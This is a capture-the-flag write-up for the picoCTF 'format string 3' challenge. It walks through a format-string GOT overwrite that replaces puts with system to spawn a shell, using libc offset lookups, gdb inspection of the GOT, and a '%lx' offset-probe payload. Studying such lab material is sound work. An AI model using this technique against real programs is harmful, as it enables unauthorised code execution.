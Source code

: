 # format string 3 #

## Description ##

This program doesn't contain a win function. How can you win? Download
the binary here. Download the [source
here](format-string-3.c). Download libc here, download the interpreter
here. Run the binary with these two files present in the same
directory.

Additional details will be available after launching your challenge instance.

https://play.picoctf.org/events/73/challenges/challenge/449

## Hints ##

Is there any way to change what a function points to?

## Solution ##

Run executable:

	Howdy gamers!
	Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f1f3c0c83f0
	Hi
	Hi
	/bin/sh

Idea:

Instead of `puts(normal_string)` in line 28, we want to call something like
`system(normal_string)`. As `normal_string` is `'/bin/sh'` this should
give us some access to the flag.


Overwrite the address of `puts()` with the address of `system()`. Both
are in libc, and we can figure out their addresses as the program
gives away the address of `setvbuf()` in libc. This is similar to 
https://blog.pwntools.com/posts/got-overwrite/


Let's find the offsets of the relevant functions in the provided libc:

``` bash
readelf -s libc.so.6 | grep -E ' puts@@| setvbuf@@| system@@'
```

(or use `objdump -T libc.so.6` which prints the dynamic symbol table)

``` comments
  1300: 000000000007a3f0   608 FUNC    WEAK   DEFAULT   16 setvbuf@@GLIBC_2.2.5
  1459: 0000000000079bf0   550 FUNC    WEAK   DEFAULT   16 puts@@GLIBC_2.2.5
  1511: 000000000004f760    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
```

As `puts()` has already been called once when we want to overwrite its
address with that of `system()`, an entry will be available in the
global offset table (GOT) of the process.


So where is the GOT? 

``` bash
objdump -d -j .got.plt format-string-3
```

returns

``` comments
format-string-3:     file format elf64-x86-64


Disassembly of section .got.plt:

0000000000404000 <_GLOBAL_OFFSET_TABLE_>:
  404000:       18 3e 40 00 00 00 00 00 00 00 00 00 00 00 00 00     .>@.............
        ...
  404018:       30 10 40 00 00 00 00 00 40 10 40 00 00 00 00 00     0.@.....@.@.....
  404028:       50 10 40 00 00 00 00 00 60 10 40 00 00 00 00 00     P.@.....`.@.....
```

Use `gdb` to see the entry of the GOT right before `puts()` is called:

``` gdb
b *main+175
r
x /8a 0x404000
```

``` comments
(gdb) b *main+175
Breakpoint 1 at 0x4012f2
(gdb) r
Starting program: /home/kali/tmp/format string 3/format-string-3 
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7ffff7e5a3f0
ABC
ABC

Breakpoint 1, 0x00000000004012f2 in main ()
(gdb) x /8a 0x404000
0x404000:       0x403e18        0x7ffff7ffe2d0
0x404010:       0x7ffff7fdca10  0x7ffff7e59bf0 <puts>
0x404020 <__stack_chk_fail@got.plt>:    0x401040        0x7ffff7e36250 <printf>
0x404030 <fgets@got.plt>:       0x7ffff7e57d40 <fgets>  0x0
(gdb)
```


So the address of `puts()` on the stack is stored in `0x404018`.
Let's doublecheck the offsets in `calc`:


1. `setvbuf()` is at `0x7ffff7e5a3f0` on the stack and at `0x7a3f0` in `libc`:

		; 0x7ffff7e5a3f0 - 0x7a3f0 
		0x7ffff7de0000

2. `puts()` is at `0x7ffff7e59bf0` on the stack and at `0x79bf0` in `libc`:

		; 0x7ffff7e59bf0 - 0x79bf0
		0x7ffff7de0000

So in order to call `system()` instead of `puts()` we need to write

	addr_of_setvbuf_on_stack - addr_of_setvbuf_in_libc + addr_of_system_in_libc

at `0x404018`. 


If the offset is known, the `fmtstr_payload()` of `pwnlib` can
generate a suitable payload. Let's find the offset:

``` bash
./format-string-3
```

``` comments
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7fdac03ae3f0
3333333.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
3333333.7fdac050c963.fbad208b.7fffa68584a0.1.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.2e33333333333333.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25
/bin/sh
```

The sequence of '3' reappears at position 39, so the offset i 38. Now
all the information is available. The script
[`pwn_format_string_3.py`](pwn_format_string_3.py) automates the
process.
